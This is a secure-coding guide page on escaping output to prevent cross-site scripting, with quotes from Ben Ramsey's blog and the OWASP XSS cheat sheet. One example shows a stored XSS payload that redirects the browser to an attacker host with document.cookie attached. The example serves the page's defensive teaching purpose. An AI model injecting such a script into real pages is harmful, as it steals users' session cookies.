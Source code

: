 # Escape Output

### One Paragraph Explainer

HTML and other web languages mix content with executable code - a single HTML paragraph might contain a visual representation of data along with JavaScript execution instructions. When rendering HTML or returning data from API, what we believe is a pure content might actually embody JavaScript code that will get interpreted and executed by the browser. This happens, for example, when we render content that was inserted by an attacker to a database - for example `<div><script>//malicious code</script></div>`. This can be mitigated by instructing the browser to treat any chunk of untrusted data as content only and never interpret it - this technique is called escaping. Many npm libraries and HTML templating engines provide escaping capabilities (example: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Not only HTML content should be escaped but also CSS and JavaScript


### Code example - Don't put untrusted data into your HTML 

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script
 
 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment
 
 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name
 
 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name
 
 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Code example - Malicious content that might be injected into a DB

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>
    window.location='http://attacker/?cookie='+document.cookie
</script>
</div>

```

<br/><br/>

### Blog Quote: "When we don’t want the characters to be interpreted"

From the Blog [benramsey.com](https://benramsey.com/articles/escape-output/)
> Data may leave your application in the form of HTML sent to a Web browser, SQL sent to a database, XML sent to an RSS reader, WML sent to a wireless device, etc. The possibilities are limitless. Each of these has its own set of special characters that are interpreted differently than the rest of the plain text received. Sometimes we want to send these special characters so that they are interpreted (HTML tags sent to a Web browser, for example), while other times (in the case of input from users or some other source), we don’t want the characters to be interpreted, so we need to escape them.
>
> Escaping is also sometimes referred to as encoding. In short, it is the process of representing data in a way that it will not be executed or interpreted. For example, HTML will render the following text in a Web browser as bold-faced text because the `<strong>` tags have special meaning:
>
> ```html
> <strong>This is bold text.</strong>
> ```
>
> But, suppose I want to render the tags in the browser and avoid their interpretation. Then, I need to escape the angle brackets, which have special meaning in HTML. The following illustrates the escaped HTML:
>
> ```html
> &lt;strong&gt;This is bold text.&lt;/strong&gt;
> ```

<br/><br/>

### Blog Quote: "OWASP recommends using a security-focused encoding library"

From the blog OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "Writing these encoders is not tremendously difficult, but there are quite a few hidden pitfalls. For example, you might be tempted to use some of the escaping shortcuts like \" in JavaScript. However, these values are dangerous and may be misinterpreted by the nested parsers in the browser. You might also forget to escape the escape character, which attackers can use to neutralize your attempts to be safe. **OWASP recommends using a security-focused encoding library to make sure these rules are properly implemented**."


<br/><br/>

### Blog Quote: "You MUST use the escape syntax for the part of the HTML"

From the blog OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
> "But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML document you're putting untrusted data into."
